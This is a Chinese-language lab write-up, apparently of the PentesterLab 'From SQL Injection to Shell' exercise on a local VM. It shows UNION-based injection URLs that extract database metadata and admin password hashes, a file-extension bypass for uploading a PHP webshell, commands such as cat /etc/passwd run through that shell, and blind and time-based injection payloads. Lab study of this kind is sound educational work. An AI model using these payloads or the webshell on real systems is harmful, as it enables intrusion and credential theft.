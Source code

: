 # From SQL Injection to Shell  

### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  

### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
一般来说，SQL注入一般存在于形如："HTTP://xxx.xxx.xxx/abc.asp?id=XX" 等带有参数的ASP、PHP等动态网页中，有时一个动态网页中可能只有一个参数，有时可能有N个参数，有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在SQL注入  
**1.整型参数的判断**  
  
**2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  
**示例：**  
  列数不同时会报错： 
![](image/1.jpg)  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
![](image/2.jpg)  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
![](image/3.jpg)  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
![](image/4.jpg)  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
![](image/5.jpg)  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
![](image/6.jpg)  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  
![](image/7.jpg)
 **利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
 ![](image/8.jpg)  
 **利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
 ![](image/9.jpg) 
- [md5在线解密破解](http://pmd5.com/) 
 ![](image/10.jpg)  
**根据已知的账号密码成功登录到管理员界面：**
 ![](image/11.jpg) 
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  
![](image/12.jpg)  
![](image/13.jpg)  
![](image/14.jpg)  
我们可以看到这个脚本没有在服务器上正确上传。应用防止文件扩展名.PHP上传。然而，我们可以尝试：  
- .PHP3这将绕过简单的.php过滤器  
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。  
![](image/15.jpg)  
修改后可以成功上传  
打开上传的图片，通过查看该页面的源代码，得到图片的URL  
![](image/16.jpg)  
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）  
![](image/17.jpg)  
其他命令可以用来检索更多的信息：  
cat /etc/passwd 来得到系统的完整的用户列表  
![](image/18.jpg) 
uname -a 获取当前的内核版本  
![](image/19.jpg)
ls 获取当前目录的内容  
![](image/20.jpg)
### 参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [百度百科 SQL注入攻击](http://baike.baidu.com/view/983303.htm)
4. [各种博客](http://www.myhack58.com/Article/html/3/7/2014/44097.htm)  

### 试验中出现的问题  

当宿主机出于不能无网络连接时，用虚拟机打开网站端系统，设置中如果选择‘桥接网卡’则无法在宿主机上通过http://localhost/查找到页面，但是通过NAT模式，仅主机（Host-Only）适配器模式则可以打开页面。  
#### 原因：  
在桥接网卡模式下，虚拟出来的操作系统就像是局域网中的一台独立的主机，它可以访问网内任何一台机器。在此模式下，需要手工为虚拟系统配置IP地址、子网掩码、而且还要和宿主机出于同一网段，这样虚拟系统才能和宿主机器进行通信。 **虚拟机有独立的IP**  
 NAT(网络地址转换模式)，虚拟机借助NAT（网络地址转换）功能，通过宿主机所在的网络来访问公网。NAT模式下的虚拟系统的TCP/IP配置信息是由VMnet8(NAT)虚拟网络的DHCP服务器提供的，无法进行手工修改，因此虚拟系统无法和本局域网中的其他真是主机进行通信。虚拟机可以访问主机，但主机无法访问到虚拟机。**虚拟机没有自己独立的IP**  
仅主机（Host-Only）适配器模式，用于在无需主机的物理网卡的情况下，创建一个网络，该网络中，只有宿主机和旗下的一些虚拟机。虚拟机和主机之间，就像中间连接了一个物理上的网卡交换机Switch一样，是可以互相通讯的。  
  
## 盲注  
### 为什么叫盲注  
与普通的注入不同的是，SQL盲注是一种通过向数据库请求真或假的问题然后根据回应来决定或判断答案的一种SQL注入式攻击。例如发现了SQL注入点，但应用只提供了一个通用的错误页面，或者说提供了正常的页面，但与我们取回的内容只有细小差异（部分可能不可见或不易观察），这些就属于SQL盲注。  
### SQL盲注分类  
- 基于内容  
    *  "xxx.php?id=2 and 1=2" 
    * If the content of the page that returns 'true' is different than that of the page that returns 'false', then the attacker is able to distinguish when the executed query returns true or false.  
- 基于时间  
    *  "xxx.php?id=1' waitfor delay '00:00:10'--"  (Microsoft SQL Server)  
    * Mysql 常搭配 sleep()与benchmark()使用  
    * 通过服务器响应的时间可以判断出语句成功或失败  
**SQL盲注实质仍属于SQL注入，需要通过多次进行真假的询问来对内容进行逐字符的猜解**  


